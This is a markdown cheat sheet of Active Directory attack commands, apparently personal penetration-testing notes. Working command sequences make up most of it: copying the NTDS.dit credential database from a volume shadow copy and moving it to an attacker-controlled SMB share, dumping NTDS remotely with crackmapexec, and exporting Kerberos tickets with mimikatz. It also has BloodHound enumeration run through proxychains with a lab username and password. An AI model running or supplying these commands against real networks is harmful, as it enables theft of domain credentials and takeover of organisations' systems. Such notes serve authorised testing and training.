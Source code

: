 # AD Tips

% active diretory

## Manual dumping NTDS.DIT as a user in Admin group/DA group
```
# Check local group membership > Admin group ?
net localgroup

# Check user priv including Domain
net user <USERNAME>

# Shadow copy of C:i, note the Shado copy volume name
vssadmin CREATE SHADOW /For=C:

# Copy NTDS.DIT form the VSS
# example: cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
cmd.exe /c copy \\?\GLOBALROOT\Device\<..> c:\NTDS\NTDS.dit

# Create a SMB share on the attacker's machine

#  Transferring NTDS.dit to Attack Host
cmd.exe /c move C:\NTDS\NTDS.dit \\<ATK IP>\<SHARENAME>
```

## Dumping NTDS.DIT - netexec (uses VSS)
```
crackmapexec smb <IP> -u <USER> -p <PASSWD> --ntds
```

## Harvest kerberos tickets from windows
```
# Harvest kerberos tickets from windows

# From mimikatz
mimikatz # privilege::debug
sekurlsa::tickets /export

dir *.kirbi
```

## Bloodhound - Finding non-default AD groups from injestor JSON output
```
#Bloodhound - Finding non-default AD groups from injestor JSON output 
# Non-default AD groups have the last part of their domains SID > 1000
 cat 20250731161542_groups.json | jq '.data[]
        | select((.ObjectIdentifier | split("-") | last | tonumber) > 1000)
        | [.ObjectIdentifier, .Properties.name, .Properties.whencreated]'
# DNS Admin which SID > 1000 is a default group, ignore it
```

# Faketime - Adhoc Kerberos auth
```
# Using faketime + ntpdate to avoid KRB_AP_ERR_SKEW(Clock skew too great)

# Internal or via ligolo
faketime "$(ntpdate -q dc01.ad.lab | cut -d ' ' -f 1,2)" \
bloodhound-python -c All -u joan.hesther -p 'madison' -d ad.lab -ns 10.80.80.2

# Through proxy or ssh
proxychains -q faketime "$(ntpdate -q dc01.ad.lab | cut -d ' ' -f 1,2)" \ 
bloodhound-python -c All -u joan.hesther -p 'madison' -d ad.lab -ns 10.80.80.2 --dns-tcp

# source : https://notes.benheater.com/books/active-directory/page/using-faketime-for-ad-hoc-kerberos-authentication
```
